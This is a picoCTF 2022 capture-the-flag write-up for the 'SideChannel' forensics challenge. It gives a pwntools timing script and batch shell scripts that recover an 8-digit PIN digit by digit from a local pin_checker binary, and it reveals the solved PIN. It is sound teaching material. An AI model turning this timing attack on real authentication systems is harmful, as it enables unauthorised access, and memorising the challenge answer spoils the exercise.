

# picoCTF 2022 SideChannel (Forensics)
The challenge is the following,
 

We are also given the file [pin_checker](./files/pin_checker)


The following shows the example execution, where `Incorrect Length` is outputted when a PIN that's not 8-digits is entered, `Checking PIN...` is outputted if a 8-digit PIN is entered, and `Access denied.` is outputted if the 8-digit PIN is incorrect.

 


There is a noticable time delay during the `Checking PIN...` and `Access denied.`, so we can use a time-based side channel attack here. 


From the program behavior, I saw that the length is first checked, and if the length is 8, the program proceeds to check the digits of the 8-digit PIN code (otherwise, it immediately returns `Incorrect length`).


I made the following Python script [side.py](./files/side.py) to measure the time before `Access denied.` is outputted

```
from pwn import *
import time
import sys

io = process(['./pin_checker'])

context.arch = 'amd64'
gs = '''
continue
'''

#allow pin number to be inputted as argument, eg: python3 side.py 12345678
pin = str(sys.argv[1])

#send the pin as the input to the pin_checker
io.sendline(pin)
#skip first output, which is 'Please enter your 8-digit PIN code:'
io.recvline()
#skip second output, which is PIN length
io.recvline()
#skip third output, which is 'Checking PIN...'
io.recvline()
#start the timer
start = time.time()
#fourth output is 'Access denied.', we are measuring time until this is outputted
recevied4 = io.recvline()
#stop the timer
stop = time.time()
#calculate time difference
time_taken = stop - start

log.info(f"Time taken: {time_taken}")
log.info(f"Received4: {recevied4}")
log.info(f"Guess: {pin}")


sys.exit()

```

I made the script so that the PIN could be inputted like the following,

`$ python3 side.py 12345678`

The following shows the example execution, where the `Time taken` is outputted in seconds.

 


I assumed that the PIN is checked from left to right, where  `Access denied.` is outputted as soon as the leftmost digit does not match. Therefore, the PIN with the correct leftmost digit should take the longest time because it will move onto the next digit comparison. For the first test batch, I decided to use `00000000`, `10000000`, `20000000`, `30000000`, `40000000`, `50000000`, `60000000`, `70000000`, `80000000`, `90000000` for the PINs. To automate this process, I made the following shell script [auto.sh](./files/auto.sh),

```
#!/bin/bash

python3 side.py 00000000
python3 side.py 10000000
python3 side.py 20000000
python3 side.py 30000000
python3 side.py 40000000
python3 side.py 50000000
python3 side.py 60000000
python3 side.py 70000000
python3 side.py 80000000
python3 side.py 90000000
```

Before I executed this script, I closed all programs that I wasn't using to reduce variations in time due to background processes. I then executed this script,

 

Here, I saw that the pin `40000000` took the longest, with a significant time difference from the other PINs. I executed this script again to confirm,

 

Therefore, `40000000` is what I will be using for the second test batch, thus I used the following shell script.


```
#!/bin/bash

python3 side.py 40000000
python3 side.py 41000000
python3 side.py 42000000
python3 side.py 43000000
python3 side.py 44000000
python3 side.py 45000000
python3 side.py 46000000
python3 side.py 47000000
python3 side.py 48000000
python3 side.py 49000000
```

I executed the script twice,

 

 
 This shows that `48000000` takes the longest, therefore I will be using this for the third test batch,
 
 ```
 #!/bin/bash

 python3 side.py 48000000
 python3 side.py 48100000
 python3 side.py 48200000
 python3 side.py 48300000
 python3 side.py 48400000
 python3 side.py 48500000
 python3 side.py 48600000
 python3 side.py 48700000
 python3 side.py 48800000
 python3 side.py 48900000
 ```
 
 I executed the script twice,

  

  
  This shows that `48300000` takes the longest, therefore I will be using this for the fourth test batch, 
 
 ```
 #!/bin/bash

 python3 side.py 48300000
 python3 side.py 48310000
 python3 side.py 48320000
 python3 side.py 48330000
 python3 side.py 48340000
 python3 side.py 48350000
 python3 side.py 48360000
 python3 side.py 48370000
 python3 side.py 48380000
 python3 side.py 48390000
 ```
 
 
I executed the script twice,

  

  
This shows that `48390000` takes the longest, therefore I will be using this for the fifth test batch,

```
#!/bin/bash

python3 side.py 48390000
python3 side.py 48391000
python3 side.py 48392000
python3 side.py 48393000
python3 side.py 48394000
python3 side.py 48395000
python3 side.py 48396000
python3 side.py 48397000
python3 side.py 48398000
python3 side.py 48399000
```
  
  I executed the script twice,

    

    
  This shows that `48390000` takes the longest, therefore I will be using this for the sixth test batch,

  ```
  #!/bin/bash

  python3 side.py 48390000
  python3 side.py 48390100
  python3 side.py 48390200
  python3 side.py 48390300
  python3 side.py 48390400
  python3 side.py 48390500
  python3 side.py 48390600
  python3 side.py 48390700
  python3 side.py 48390800
  python3 side.py 48390900
  
```

I executed the script twice,

  

  
This shows that `48390500` takes the longest, therefore I will be using this for the seventh test batch,

```
#!/bin/bash

python3 side.py 48390500
python3 side.py 48390510
python3 side.py 48390520
python3 side.py 48390530
python3 side.py 48390540
python3 side.py 48390550
python3 side.py 48390560
python3 side.py 48390570
python3 side.py 48390580
python3 side.py 48390590
```

I executed the script twice,

  

  
This shows that `48390510` takes the longest, therefore I will be using this for the eigth test batch,

```
#!/bin/bash

python3 side.py 48390510
python3 side.py 48390511
python3 side.py 48390512
python3 side.py 48390513
python3 side.py 48390514
python3 side.py 48390515
python3 side.py 48390516
python3 side.py 48390517
python3 side.py 48390518
python3 side.py 48390519
```

Executing this showed that `48390513` is the correct PIN.

 


I logged into the master server using this PIN, which gave me the flag, 

 

  
 
